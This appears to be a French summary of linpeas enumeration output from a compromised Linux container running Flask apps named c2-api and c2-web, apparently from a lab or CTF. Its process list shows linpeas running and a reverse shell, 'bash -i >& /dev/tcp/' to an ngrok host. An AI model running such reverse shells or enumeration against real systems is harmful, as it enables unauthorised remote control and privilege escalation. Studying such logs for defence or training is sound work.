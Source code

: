 
# Processus, Crons, Timers, Services et Sockets

## Processus en cours (nettoyé)
- **ps**: ne trouve pas les processus, lecture à partir de /proc/
- **Processus**:
  - 5115 bashlinpeas.sh
  - 5111 sort-r
  - 5110 bashlinpeas.sh
  - 2368 bashlinpeas.sh
  - 20 /usr/bin/python3 /usr/local/bin/flask run --host=0.0.0.0 --port=5000
  - 1920 bash-i
  - 1919 bash-c bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/10426 0>&1
  - 19 /usr/bin/python3 /usr/local/bin/flask run --host=0.0.0.0 --port=3000
  - 18 sh-c flask run --host=0.0.0.0 --port=3000
  - 17 sh-c flask run --host=0.0.0.0 --port=5000
  - 16 su-c flask run --host=0.0.0.0 --port=3000 c2-api
  - 15 su-c flask run --host=0.0.0.0 --port=5000 c2-web
  - 14 /bin/bash /entrypoint.sh
  - 13 /usr/sbin/cron
  - 1 /bin/bash /entrypoint.sh

## Processus avec des identifiants en mémoire (nécessite root)
- **gdm-password**: Non trouvé
- **gnome-keyring-daemon**: Non trouvé
- **lightdm**: Non trouvé
- **vsftpd**: Non trouvé
- **apache2**: Non trouvé
- **sshd**: Non trouvé

## Permissions des processus binaires (non 'root root' et n'appartenant pas à l'utilisateur actuel)
- **Total**: 832

## Fichiers ouverts par des processus appartenant à d'autres utilisateurs
- Habituellement vide en raison du manque de privilèges pour lire les informations des processus d'autres utilisateurs

## Chemin Systemd
- **Chemin systemd**: Non trouvé

## Tâches Cron
- **/usr/bin/crontab**
- **incrontab**: Non trouvé
- **/etc/crontab**: -rw-r--r-- 1 root root 1042 Mar 2 2023
